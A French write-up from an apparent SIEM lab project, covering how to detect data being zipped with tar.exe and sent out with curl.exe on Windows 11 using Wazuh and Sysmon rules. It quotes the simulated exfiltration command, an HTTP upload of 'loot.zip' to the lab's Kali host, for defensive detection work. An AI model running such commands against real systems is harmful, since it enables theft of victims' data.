

repository: Drien95/SIEM_PROJECT · page: writeup/22-scenario-collection-exfiltration/index.html · generator: mkdocs

# Writeup 22 : archiver puis exfiltrer, et une première corrélation (T1560.001, T1048.003)

> Scénario 11, joué le 2026-10-29. Sur Windows 11, un faux document est zippé avec `tar.exe`
> puis envoyé en HTTP vers Kali avec `curl.exe`, deux outils **livrés avec Windows**. La native
> qui vise l'archivage ne voit pas ce cas. Trois règles locales : **100280** (archive, niveau 8),
> **100281** (envoi, niveau 10) et la **corrélation 100282** (les deux sur le même poste en
> 5 minutes, niveau 14). Tactiques **Collection** et **Exfiltration** couvertes.
>
> Versions : Wazuh 4.14.9, Windows 11 en français (agent SIEM-Win11), Sysmon v15.22, Kali
> `10.10.20.10`.

## 1. Comprendre

Avant de partir, l'attaquant **rassemble** ce qui l'intéresse et le **compresse** (moins de
volume, un seul fichier), puis le **sort** du réseau. Utiliser les binaires déjà présents
(*living off the land*) évite de déposer un outil qu'un antivirus reconnaîtrait.

| Étape | MITRE ATT&CK | Ici |
|---|---|---|
| Archive via un utilitaire | **T1560.001** *Archive Collected Data: Archive via Utility* (Collection, TA0009) | `tar.exe -a -c -f loot.zip …` |
| Exfiltration sur un protocole non C2, non chiffré | **T1048.003** *Exfiltration Over Unencrypted Non-C2 Protocol* (Exfiltration, TA0010) | `curl.exe -F f=@loot.zip http://10.10.20.10:8080/` |

Sources : https://attack.mitre.org/techniques/T1560/001/, https://attack.mitre.org/techniques/T1048/003/

`tar.exe` et `curl.exe` sont livrés dans `C:\Windows\System32` depuis Windows 10 1803 (supposé,
d'après la documentation Microsoft ; vérifié présents sur la VM).

## 2. Ce que Wazuh fournit déjà

Recherche dans le ruleset (2026-10-29) :

| Règle / fichier | Ce qu'elle voit | Pourquoi elle ne suffit pas ici |
|---|---|---|
| **92067** (niveau 6, T1560.001), `0800-sysmon_id_1.xml` | ligne de commande avec `.zip`/`.7z`/`.rar` | fille de **92066** : parent PowerShell **et** binaire dans `Windows\SysWOW64` ou `Windows\Temp`. `tar.exe` est dans `System32` : hors champ |
| `0830-sysmon_id_11.xml` | archive créée dans `C:\Users\Public` | repose sur Sysmon EID 11 (création de fichier), non collecté par la config du lab (supposé, d'après le [writeup 04](04-agent-windows-sysmon.md)) |
| `0915-win-powershell_rules.xml` | `Compress-Archive` | repose sur le journal 4104 (Script Block Logging), non activé |
| `curl.exe` en envoi | **aucune** règle | — |

Une native peut exister **et** être muette : la condition qui compte est souvent celle qu'on
ne voit pas dans une recherche d'une ligne (même leçon qu'au [writeup 20](20-scenario-powershell-encode.md)).
